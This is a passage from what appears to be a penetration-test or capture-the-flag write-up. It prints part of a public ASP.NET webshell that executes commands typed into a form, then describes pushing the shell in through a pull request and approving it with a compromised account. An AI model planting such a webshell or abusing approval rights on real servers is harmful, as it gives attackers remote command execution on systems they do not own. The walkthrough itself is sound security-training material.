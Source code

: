 ```aspnet
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```

The asp.net webshell by Dominic Chell, downloaded from [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx).

![](/assets/img/11-test-upload-approve.png)

After I submitted the pull request I had to approve it.  Luckily this user had the necessary permissions.
